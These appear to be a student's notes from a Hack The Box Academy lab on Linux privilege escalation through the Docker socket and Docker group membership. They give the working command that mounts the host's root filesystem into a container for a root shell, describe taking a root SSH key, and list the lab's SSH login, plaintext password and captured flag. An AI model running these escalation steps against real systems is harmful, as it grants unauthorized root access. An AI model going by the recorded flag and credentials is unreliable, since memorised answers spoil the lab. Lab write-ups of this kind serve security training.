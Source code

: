 
## Privilege Escalation Methods
### Method 1: Docker Sockets

- A Docker socket or Docker daemon socket is a special file that allows us and processes to communicate with the Docker daemon
- Access to the Docker socket is typically restricted to specific users or user groups
- acts as a bridge, facilitating communication between the Docker client and the Docker daemon
- By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources

#### Map Host Directory to Docker Container Directory

Map the hosts root directory to the hosts directory on the container using the main_app docker image:
![[Pasted image 20240318110741.png]]

Logging in with the first Container ID listed and grabbing the private SSH key and log in as root
![[Pasted image 20240318110823.png]]


### Method 2: Docker Group

Verify if user is in the docker group. To gain root access the user must be in the docker group
```shell-session
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

*OR*
- Docker must have SUID set
- User must be in the Sudoers file, which permits us to run `docker` as root
#### View images we can access
```
docker image ls
```

#### Method 3: Verify if the Docker Socket is writable

Usually located in `/var/run/docker.sock`. This file is supposed only allow write permissions for root. If it is writable, you may priv esc
```shell-session
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```


## Questions
### SSH
```
ssh htb-student@10.129.205.237
```

### Passwd
```
HTB_@cademy_stdnt!
```

#### Check file permissions for the socket file
![[Pasted image 20240318112824.png]]
SUID bit is set and we can access the 5a81c4b8502e image

I am also in the docker group
![[Pasted image 20240318114210.png]]


#### FLAG
With these two facts I was able to write to the docker.sock file and  priv esc to root. I then used the find command to find the flag
```
htb-student@ubuntu:/$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@d48cd6caa0c0:/# 
root@d48cd6caa0c0:/# find /root -type f -name flag.txt -exec cat {} \; 2>dev/null
HTB{D0ck3r_Pr1vE5c}
root@d48cd6caa0c0:/# 
```